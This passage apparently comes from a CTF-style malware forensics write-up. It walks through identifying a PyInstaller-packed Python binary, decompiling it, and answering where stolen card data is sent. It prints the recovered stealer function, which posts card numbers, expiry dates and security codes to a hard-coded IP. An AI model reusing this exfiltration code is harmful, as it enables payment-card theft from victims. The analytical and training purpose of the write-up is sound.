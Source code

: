 ```cpp
```

and here it runs the bat script.

```
Answer Q7) 33241f9fe44881e934c5e083389ebc1e_2a02fe4dc1364a7c071566d6c8774361_758abfe0632f8c45a46b6290328fc36b
```


### Question 8

Q8)Where is the credit card information that gets stolen sent (isn't the cat cute?)?

Format : ip:port

There is a totallynotamalware.exe present in the Desktop folder which was dropped by `WDjmIG5L.exe`.  
For this we can do a dynamic approach or reverse the binary. On doing `strings` on the file, we can find out that it is a **python3.10** binary.

```bash
>>> strings qRiZgNd7.exe | grep -i python                       
Py_SetPythonHome
Failed to get address for Py_SetPythonHome
Error loading Python DLL '%s'.
PYTHONUTF8
Invalid value for PYTHONUTF8=%s; disabling utf-8 mode!
Error detected starting Python VM.
bpython3.dll
bpython310.dll
6python310.dll
```

Therefore we can follow the same steps we did in Qn.2 to get the source code of the binary. Getting the bytecode using `pyinstxtractor` and then using `pylingual` to get the source code.

Analyzing the code, we can find that the function `details` is sending the stolen data to `https://192.22.14.4`. Therefore ip address is `192.22.14.4` and the port is `443`.

```py
def details(cn, ed, sc):
    print(cn.get(), ed.get(), sc.get())
    try:
        requests.get('https://www.google.com', timeout=5)
    except (requests.ConnectionError, requests.Timeout) as exception:
        return None
    else:
        post = {'credit_card_number': cn.get(), 'expiry_date': ed.get(), 'security_code': sc.get()}
        url = 'https://192.22.14.4'
        response = requests.post(url, json=post)
        if response.status_code == 200:
            print('Thank you')
        else:
            print(f'Failed Status code: {response.status_code}')
```

